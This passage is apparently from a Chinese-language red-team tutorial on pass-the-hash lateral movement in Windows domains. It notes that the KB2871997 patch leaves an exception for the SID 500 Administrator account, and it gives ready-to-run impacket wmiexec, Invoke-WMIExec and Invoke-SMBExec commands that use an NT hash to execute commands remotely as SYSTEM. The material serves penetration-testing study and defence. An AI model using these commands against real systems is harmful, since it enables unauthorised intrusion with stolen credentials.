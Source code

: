 在实际测试中，更新该补丁后，发现无法使用常规的哈希传递方法进行横向移动，但 Administrator 账号(**SID：500**)例外，使用该账号的 Hash 值依然可以进行哈希传递。

**注:**

- mimikatz 的 pth 功能需要本地管理员权限，这是由它的实现机制决定的，需要先获得高权限进程 lsass.exe 的信息.

- 对于8.1/2012r2，安装补丁 kb2871997 的 Win 7/2008r2/8/2012，可以使用 AES keys 代替 NT hash.


### impacket

**wmiexec:**

```cmd
wmiexec -hashes 00000000000000000000000000000000:fed7b3afcb7565ad9e3584694bba77f8 HACK/administrator@192.168.1.1 "whoami"
```

![](/assets/images/move/2020-07-05-12-08-18.png)


### Powershell

\> https://github.com/Kevin-Robertson/Invoke-TheHash/


**Invoke-WMIExec：**


```powershell
Invoke-WMIExec -Target 192.168.1.1 -Domain HACK -Username administrator -Hash fed7b3afcb7565ad9e3584694bba77f8 -Command "calc.exe" -verbose
```

**Invoke-SMBExec：**

支持 SMB1, SMB2 (2.1), and SMB signing，通过在目标主机创建服务执行命令，所以权限为 system。

```powershell
Invoke-SMBExec -Target 192.168.1.1 -Domain HACK -Username administrator -Hash fed7b3afcb7565ad9e3584694bba77f8 -Command "calc.exe" -verbose
```

**Invoke-SMBClient：**

支持 SMB1, SMB2 (2.1), and SMB signing

如果只有 SMB 文件共享的权限，没有远程执行权限，可以使用该脚本.

支持的功能包括列举目录、上传文件、下载文件、删除文件(具体权限取决于该口令 hash 的权限).


## Pass the Ticket
